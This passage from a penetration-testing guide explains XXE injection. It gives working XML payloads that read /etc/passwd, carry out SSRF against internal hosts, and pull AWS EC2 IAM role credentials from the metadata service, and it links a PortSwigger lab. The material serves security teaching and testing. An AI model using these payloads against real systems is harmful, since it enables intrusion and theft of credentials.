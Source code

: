 A vulnerable application should replace the value by "VULNERABLE". 

### Retrieve content of local files

When the tester has identified a vulnerable entry point (see [identify an XXE](#identify-an-xxe-injection-vulnerability)). He can try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```xml
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

### Conduct an SSRF attack

An XXE can be exploited to conduct an SSRF. When an application performs data transfer using XML, the request can be intercepted and forwarded to an internal host as follow.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY newfrom SYSTEM "http://{internal_host}/..."> ]>
<searchForm>
    <from>&newfrom;</from>
</searchForm>
```

::: details Example: Get EC2 IAM role temporary credentials
In the following example, the attacker tries to access the AWS EC2 metadata service to retrieve the EC2 role credentials used by the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/metadata/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

The internal server will reveal the URL path to access the role's credentials as an error message at each step by displaying the HTTP response body of the accessed URL as follows: 

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/"\
 The server will return an error message revealing the EC2 role name: `invalid productId ec2-role-name`_._



1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/ec2-role-name"\
 The server will return an error message revealing the EC2 role's secrets as `invalid productId`.

For more details, refer to the ["XXE to SSRF" PortSwigger lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf).
:::


### Blind XXE
